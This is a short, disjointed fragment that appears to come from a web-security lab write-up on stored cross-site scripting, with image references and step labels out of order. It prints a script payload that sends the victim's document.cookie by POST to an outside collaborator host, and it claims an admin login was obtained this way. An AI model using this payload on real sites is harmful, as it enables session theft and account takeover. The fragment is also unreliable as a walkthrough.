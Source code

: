 And we are log in as admin

qb5b1alezasrrrmljmzmsrg11s7jvajz.oastify.com
```
<script>

fetch('https://qb5b1alezasrrrmljmzmsrg11s7jvajz.oastify.com', {method: 'POST', body: document.cookie});

</script>

```

<img src="images/image126.png" alt="third" width="500">

**Step1:**

First we view source code of comment page

<img src="images/image127.png" alt="third" width="500">
